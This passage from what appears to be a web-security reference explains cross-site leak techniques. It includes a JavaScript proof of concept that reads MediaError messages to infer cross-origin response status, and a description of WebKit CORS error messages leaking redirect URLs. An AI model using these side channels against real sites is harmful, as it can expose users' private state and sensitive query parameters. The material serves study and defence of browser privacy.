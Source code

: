 ```javascript
// Code saved here in case it dissapear from the link
// Based on MDN MediaError example: https://mdn.github.io/dom-examples/media/mediaerror/
window.addEventListener("load", startup, false);
function displayErrorMessage(msg) {
  document.getElementById("log").innerHTML += msg;
}

function startup() {
  let audioElement = document.getElementById("audio");
 // "https://mdn.github.io/dom-examples/media/mediaerror/assets/good.mp3";
  document.getElementById("startTest").addEventListener("click", function() {
    audioElement.src = document.getElementById("testUrl").value;
  }, false);
  // Create the event handler
  var errHandler = function() {
    let err = this.error;    
    let message = err.message;
    let status = "";
    
    // Chrome error.message when the request loads successfully: "DEMUXER_ERROR_COULD_NOT_OPEN: FFmpegDemuxer: open context failed"
    // Firefox error.message when the request loads successfully: "Failed to init decoder"
    if((message.indexOf("DEMUXER_ERROR_COULD_NOT_OPEN") != -1) || (message.indexOf("Failed to init decoder") != -1)){
      status = "Success";
    }else{
      status = "Error";
    }
    displayErrorMessage("<strong>Status: " + status + "</strong> (Error code:" + err.code + " / Error Message: " + err.message + ")<br>");
  };
  audioElement.onerror = errHandler;
}
```

The message property of the **`MediaError`** interface contains a **different string for resources that loads successfully**. This allows an attacker to infer the response status for a cross-origin resource.

### CORS Error

* **Inclusion Methods**: Fetch API
* **Detectable Difference**: Header
* **More info**: [https://xsinator.com/paper.pdf](https://xsinator.com/paper.pdf) (5.3)
* **Summary:** In SA CORS error messages leak the full URL of redirects.
* **Code Example**: [https://xsinator.com/testing.html#CORS%20Error%20Leak](https://xsinator.com/testing.html#CORS%20Error%20Leak)

This technique allows an attacker to leak the target of a redirect that is initiated by a cross-origin site.

CORS allows publicly accessible web resources to be read and used from any website. In Webkit-based browsers, it is possible to **access CORS error messages when a CORS request fails**. An attacker can send a CORS-enabled request to a target website which **redirects** based on the user state. When the browser denies the request, the **full URL of the redirect target is leaked** in the error message. With this attack, it is possible to detect redirects, leak redirect locations, and sensitive query parameters.
